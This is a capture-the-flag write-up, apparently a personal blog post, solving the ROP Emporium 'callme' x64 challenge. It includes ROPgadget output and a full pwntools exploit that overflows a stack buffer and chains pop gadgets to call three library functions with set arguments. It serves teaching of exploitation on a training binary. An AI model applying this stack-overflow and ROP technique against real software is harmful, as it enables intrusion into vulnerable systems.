 ```yaml
---
title: ROP Emporium - callme (x64) - writeup
date: 2023-03-15 00:27:03 +0100
author: farrimwildaxe
categories: [Writeup,ROP Emporium]
tags: [rop,emporium,x64,callme,writeup,pwntools]
img_path: /assets/img/ropemporium/callme
published: true
---
```



In this task we need to call three functions: `callme_one`, `callme_two` and `callme_three` in exact order, also with proper function arguments. As mentioned on the challenge page, x86_64 binary uses doubled arguments: `0xdeadbeefdeadbeef`, `0xcafebabecafebabe`, `0xd00df00dd00df00d` . Let’s do it!

As I mentioned in the split writeup, Linux and other Unix-like systems store first six function arguments in the following registers: **RDI, RSI, RDX, RCX, R8, R9**. Because we’re going to use three parameters we should focus on pop/ret ROP Gadgets operating on RDI, RSI, and RDX:

```python
┌──(py3)─(kali㉿playground-kali)-[~/ropemporium/callme]
└─$ [2023-03-14 23:59:42] ROPgadget --binary ./callme --only "pop|ret"                                                                                                                                                                
Gadgets information
============================================================
0x000000000040099c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040099e : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004009a0 : pop r14 ; pop r15 ; ret
0x00000000004009a2 : pop r15 ; ret
0x000000000040099b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040099f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004007c8 : pop rbp ; ret
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
0x00000000004009a3 : pop rdi ; ret
0x000000000040093e : pop rdx ; ret
0x00000000004009a1 : pop rsi ; pop r15 ; ret
0x000000000040093d : pop rsi ; pop rdx ; ret
0x000000000040099d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006be : ret

Unique gadgets found: 14
```

OK, so RDI, and RDX are easy ones: `0x00000000004009a3 : pop rdi ; ret` and `0x000000000040093e : pop rdx ; ret`, but RSI looks like a bit tricky one. From the three gadgets this: `0x00000000004009a1 : pop rsi ; pop r15 ; ret`seems to be the easiest one to use, we just need to put two values on the stack instead of one (to fill unused by us r15 register). So, let’s make a python function which will prepare function arguments based on ROP gadgets we’re going to use:

```python
def prepare_args():
    stack  = p64(0x0004009a3)           # pop rdi ; ret
    stack += p64(0xdeadbeefdeadbeef)
    stack += p64(0x0004009a1)           # pop rsi ; pop r15 ; ret
    stack += p64(0xcafebabecafebabe)
    stack += p64(0x0)                   # r15 (unused)
    stack += p64(0x00040093e)           # pop rdx ; ret
    stack += p64(0xd00df00dd00df00d)
    return stack
```

Next, because `callme_` functions are placed in `libcallme.so` library we need to use PLT to get their adresses (as mentioned on challenge page). We can use pwntools functionality for that. Putting it all together, our exploit looks like this:

```python
from pwn import *

context.log_level="debug"

elf = context.binary = ELF("callme")

gs = '''
break main
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

def prepare_args():
    stack  = p64(0x0004009a3)           # pop rdi ; ret
    stack += p64(0xdeadbeefdeadbeef)
    stack += p64(0x0004009a1)           # pop rsi ; pop r15 ; ret
    stack += p64(0xcafebabecafebabe)
    stack += p64(0x0)                   # r15 (unused)
    stack += p64(0x00040093e)           # pop rdx ; ret
    stack += p64(0xd00df00dd00df00d)
    return stack

io = start()
io.recvuntil(b"> ")

payload  = b"A" * 40 
payload += prepare_args()
payload += p64(elf.plt.callme_one)
payload += prepare_args()
payload += p64(elf.plt.callme_two)
payload += prepare_args()
payload += p64(elf.plt.callme_three)

io.sendline(payload)

io.interactive()
```

Let’s run it:

![callme - output of the exploit](callme-output.png)

Bingo, we’ve got the flag!